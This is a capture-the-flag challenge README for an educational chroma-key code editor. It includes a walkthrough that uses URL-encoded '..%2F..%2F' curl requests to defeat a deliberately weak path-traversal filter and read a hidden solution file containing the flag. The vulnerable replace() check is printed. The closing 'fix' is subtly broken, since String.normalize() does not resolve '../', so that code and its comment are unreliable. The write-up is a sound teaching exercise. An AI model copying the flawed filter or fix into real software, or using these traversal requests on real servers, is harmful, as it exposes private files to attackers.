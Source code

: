 # challenge-cvedu

This challenge is about secure file access and injection of special chars in paths.

You are presented with an online code editor for computer vision. The editor allows Visual Programming, where every blocks represents a pure function. You are able to connect every block input and outputs with dragging.

![blocks](blocks.png)

When selecting (by clicking) a block you are able to edit its Typescript code using the embedded Monaco editor. Once you select the play button it will compile the code and run it in the selected block.

![code](code.png)

The goal of a normal user is to write the missing parts of the block's code, building a chroma key algorithm.

If the user gets stuck he's able to click the *SOLUTION* button, that completes the missing parts of the code, giving the intended solution. This functionality is protected by a password, that is expected to be given to the student by the teacher. To prevent a user from guessing the password (in the security challenge context) it is generated from a random source.

The challenge that a user has to face is retrieve the solutions for the blocks code, without knowing the password. Once the user reads the solutions he will found the flag as a comment in the code.

## Project Structure

The project is managed using Lerna workspaces and is divided as following:

- `packages/backend`: The code for the backend, written for Node.JS using Express
- `packages/common`: Types and common code for the backend and the frontend
- `packages/frontend`: The code for the frontend, build using create-react-app

When in production mode the Express app server the static files for the React App.

## Instructions

For __development__ it's possible to use the live reload feature, using the `yarn dev` script.

For __production__ it's suggested to use Docker:

```bash
docker build -t challenge-cvedu .
docker run -p8080:8080 challenge-cvedu
```

This will start the server and expose the pages on port 8080.

### WARNING: Usage behind a reverse proxy

This challenge is based on exploiting url-encoded paths. Therefore it relies on having the url passed as there are to the backend.
I have noticed that, under some type of configurations, reverse proxies like Nginx are escaping urls before sending it to the target server. This makes the challenge unsolvable. Please make sure that the server is NOT url decoding the urls.

In Nginx, for example, it's necessary to omit the trailing slash from the `proxy_pass` rule.

## Exploit

When inspecting the request made by the client to the backend we can gain some insights about the interactions. There are XHR calls to three endpoints:

- `GET /templates`: retrieves all the blocks configuration
- `GET /codes/:type`:  called for each block, retrieves the template code for that block
- `POST /solutions/:type`: called when entering a solution password, tries to get the solution, returns 403 with wrong password

![requests](requests.png)

The big assumption that we have to make is about how the data is retrieved inside the server:

- If we have some kind of __database__ we may attack using SQL Injection
  - *We quickly rule out this hypothesis, since injecting any SQL string does not yields any effect*
- If the developer was lazy enough we may think that he's __reading files__ directly from the disk, using the files API.
  - If this is the case, we know that it's a pretty common mistake to not check the paths that we are reading properly.
  - Since we have endpoints for codes and solutions, we assume two directories at the same level with the same names.

Since it requires no password, we can try to exploit the `GET /template/:type/code` HTTP command. We try with a simple path traversal:

```bash
curl http://localhost:8080/codes/../solutions/ChromaComposite

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /solutions/ChromaComposite</pre>
</body>
</html>
```

With this response we realize that our `../` gets parsed by the application server router, so we need to urlescape it:

```bash
curl http://localhost:8080/codes/..%2Fsolutions%2FChromaComposite

{"status":"error","error":"Error: No code found in path \"/Users/giuliozausa/personal/programming/challenge-cvedu/packages/backend/codes/solutions/ChromaComposite.ts\". Were you trying to perform a path traversal? We got path sanification."}
```

The server replies with an error: the file could not be found. This is because the server has some form of input sanification. Since we have the path readt from the error message, we can use it as an oracle to test how the sanification works.

We quickly understand that the server is only removing the first occurrence `../`. This is a common mistake when using the JavaScript string API:

```js
// Removes path traversal
if (name.includes("../")) {
  name = name.replace("../", "");
}

const filePath = path.join(__dirname, basePath + `${folder}/`, name + ".ts");
```

The `replace("../", "")` function does not removes all the occurrencies, only the first one! We can exploit this behaviour using a double `../` in the start of path. This works even if we use the expected Node.JS `path` api.

```bash
curl http://localhost:8080/codes/..%2F..%2Fsolutions%2FChromaComposite
```

This command will succesfully read the desidered file, leaking the solution, with the challenge flag as reward:

```json
{"status":"ok","data":"// Enjoy your green screen!\n// Flag: DOTDOTSLASH-GOES-BRRR\n\nfunction ChromaComposite({\n  Mask,\n  FrameA,\n  FrameB,\n}: {\n  Mask: { data: boolean[]; width: number; height: number };\n  FrameA: ImageData;\n  FrameB: ImageData;\n}): { Frame: ImageData } {\n  // Copia i pixel dell'immagine\n  const newData = new ImageData(FrameA.width, FrameA.height);\n\n  for (let i = 0; i < FrameA.data.length; i += 4) {\n    if (Mask.data[i / 4]) {\n      newData.data[i] = FrameA.data[i];\n      newData.data[i + 1] = FrameA.data[i + 1];\n      newData.data[i + 2] = FrameA.data[i + 2];\n    } else {\n      newData.data[i] = FrameB.data[i];\n      newData.data[i + 1] = FrameB.data[i + 1];\n      newData.data[i + 2] = FrameB.data[i + 2];\n    }\n\n    newData.data[i + 3] = 255;\n  }\n\n  return { Frame: newData };\n}\n"}
```

## Fixing the vulnerability

There are many ways to fix this vulnerability. The most common is to sanitize the path using a base path that should not be escaped:

```js
function sanitizePath(base, str) {
  // normalize() removes the ../ in the middle, then we remove any ../ from the front of the path
  const normalized = str.normalize().replace(/^(\.\.(\/|\\|$))+/, '');
  // we join the two paths
  return path.join(base, normalized);
}
```
